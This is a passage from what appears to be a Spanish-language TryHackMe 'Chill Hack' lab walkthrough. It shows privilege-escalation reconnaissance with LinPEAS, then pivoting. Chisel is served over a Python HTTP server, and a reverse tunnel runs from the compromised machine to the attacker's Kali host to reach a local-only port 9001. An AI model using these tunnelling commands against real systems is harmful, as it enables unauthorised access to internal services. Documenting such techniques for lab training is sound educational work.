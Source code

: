 Si dejamos que Linpeas analicé todo, vamos a encontrar que hay un puerto activo en 127.0.0.1:9001, es decir solo puede entrar por sí mismo, también del puerto 3306 que es MySQL
![imagen_hacking_chill-hack_24informacion_limpeas.png](/imagen_hacking_chill-hack_24informacion_limpeas.png)

Vamos a intentar acceder a él, para ello usaremos la herramienta Chisel
> Ir a la práctica de pivotaje para descargar Chisel y la configuración de los proychains5 [enlace](https://ciberapuntes.com/es/apuntes/ciber/Hacking_Etico/Pivotaje)
{.is-info}

Una vez descargado, vamos a hacer el mismo proceso que hicimos para pasar linpeas, por lo que abrimos de nuevo el servicio web
```python
python -m http.server 8000
```
> Si diera error el puerto 8000, cambiar de puerto, o asegurarse que están todos los procesos terminando con dicho puerto.
{.is-warning}

Tras haberlo descargado y dado los permisos de ejecución, vamos a ejecutarlo.
En nuestra máquina Kali, vamos a poner el siguiente comando
```bash
./chisel server -p 4000 --reverse --socks5
```
![imagen_hacking_chill-hack_27chisel_kali.png](/imagen_hacking_chill-hack_27chisel_kali.png)
Y en la máquina de TryHackMe, vamos a poner lo siguiente:
```bash
./chisel client 10.9.3.9:4000 R:9001:127.0.0.1:9001
```
![imagen_hacking_chill-hack_28chisel_thm.png](/imagen_hacking_chill-hack_28chisel_thm.png)

Teniendo el proxy activado, si acudimos a nuestro navegador y ponemos *127.0.0.1:9001*, podemos ver lo siguiente: